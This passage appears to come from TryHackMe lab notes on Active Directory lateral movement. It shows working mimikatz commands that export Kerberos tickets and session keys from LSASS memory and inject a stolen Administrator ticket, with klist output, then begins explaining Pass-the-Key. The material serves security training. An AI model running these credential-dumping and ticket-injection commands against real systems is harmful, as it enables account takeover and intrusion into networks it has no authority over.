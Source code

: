 ## Pass-the-Ticket
Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:
```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

*Note*:
	Notice that if we only had access to a ticket but not its corresponding session key, we *wouldn't be able* to use that ticket; therefore, both are necessary.

While mimikatz can extract any *TGT* or *TGS* available from the memory of the *LSASS* process, most of the time, *we'll be interested in TGTs* as they can be used to *request access to any services the user is allowed to access*. At the same time, *TGSs are only good for a specific service*. Extracting *TGTs will require us to have administrator's credentials*, and extracting *TGSs can be done with a low-privileged account* (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:
```shell-session
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-{ZA.TRYHACKME.COM}.kirbi
```

*Injecting tickets in our own session doesn't require administrator privileges*. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the `klist` command:

THMJMP2: Powershell
```shell-session
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

## Overpass-the-hash / Pass-the-Key
This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.
